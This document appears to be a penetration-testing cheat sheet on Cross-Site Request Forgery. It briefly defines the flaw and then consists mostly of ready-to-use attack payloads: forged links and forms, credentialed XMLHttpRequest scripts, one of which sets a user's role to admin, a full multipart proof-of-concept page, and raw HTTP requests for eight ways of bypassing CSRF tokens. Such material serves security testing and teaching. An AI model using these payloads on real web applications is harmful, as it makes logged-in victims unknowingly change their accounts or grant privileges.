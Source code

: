 # Cross Site Request Forgery (CSRF)

## Introduction
Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated

## Where to find
Usually found in forms. Try submit the form and check the HTTP request. If the HTTP request does not have a CSRF token then it is likely to be vulnerable to a CSRF attack.

## How to exploit
1. HTML GET Method

```html
<a href="http://www.example.com/api/setusername?username=uname">Click Me</a>
```

2. HTML POST Method

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="uname" />
 <input type="submit" value="Submit Request" />
</form>
```

3. JSON GET Method
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```

4. JSON POST Method
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

5. Multipart request
```html
<head>
    <title>Multipart CSRF PoC</title>
</head>
<body>
<br>
<hr>
<h2>Click Submit request</h2><br>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https://example/api/users", true);
        xhr.setRequestHeader("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "multipart/form-data; boundary=---------------------------149631704917378");
        xhr.withCredentials = true;
        var body = "-----------------------------149631704917378\r\n" + 
          "Content-Disposition: form-data; name=\"action\"\r\n" + 
          "\r\n" + 
          "update\r\n" + 
          "-----------------------------149631704917378\r\n" + 
          "Content-Disposition: form-data; name=\"user_id\"\r\n" + 
          "\r\n" + 
          "1\r\n" + 
          "-----------------------------149631704917378\r\n" + 
          "Content-Disposition: form-data; name=\"uname\"\r\n" + 
          "\r\n" + 
          "daffainfo\r\n" + 
          "-----------------------------149631704917378\r\n" + 
          "Content-Disposition: form-data; name=\"first_name\"\r\n" + 
          "\r\n" + 
          "m\r\n" + 
          "-----------------------------149631704917378\r\n" + 
          "Content-Disposition: form-data; name=\"last_name\"\r\n" + 
          "\r\n" + 
          "daffa\r\n" + 
          "-----------------------------149631704917378--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
	<form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
<br>
</body>
```

# Bypass CSRF Token
But in some cases, even though there is a CSRF token on the form on the website. CSRF tokens can still be bypassed by doing a few things:

1. Change single character
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaab
```

2. Sending empty value of token
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=
```

3. Replace the token with same length
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=aaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=aaabaa
```
4. Changing POST / GET method
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
GET /register?username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa HTTP/1.1
Host: target.com
...
```

5. Remove the token from request
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456
```

6. Use another user's valid token
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=ANOTHER_VALID_TOKEN
```

7. Try to decrypt hash
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=MTIzNDU2
```
MTIzNDU2 => 123456 with base64

8. Sometimes anti-CSRF token is composed by 2 parts, one of them remains static while the others one dynamic
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=vi802jg9f8akd9j123
```
When we register again, the request like this
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=vi802jg9f8akd9j124
```
If you notice "vi802jg9f8akd9j" part of the token remain same, you just need to send with only static part
